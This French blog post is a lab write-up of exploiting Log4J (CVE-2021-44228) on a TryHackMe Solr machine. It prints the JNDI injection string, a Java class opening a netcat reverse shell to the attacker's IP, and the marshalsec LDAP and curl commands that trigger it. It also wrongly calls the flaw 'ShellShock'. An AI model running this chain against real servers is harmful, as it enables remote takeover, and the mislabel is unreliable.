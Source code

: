 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille qui a mis les Ops et les RSSI en ébullition.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut trouver un point d'injection. Le plus simple est de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injection de code ou pas)

Pour identifier la vulnérabilité du système, j'injecte un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)
_L'injection, avec un listener pour récupérer la connexion, permettant de vérifier la bonne exécution de la charge utile_

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc **vulnérable à l'attaque**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut unserveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre paylaod fera l'affaire.

Pour pouvoir récupérer le shell il faut également ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va permettre de déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la reqûete malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec la payload RCE compilée, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classque d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.




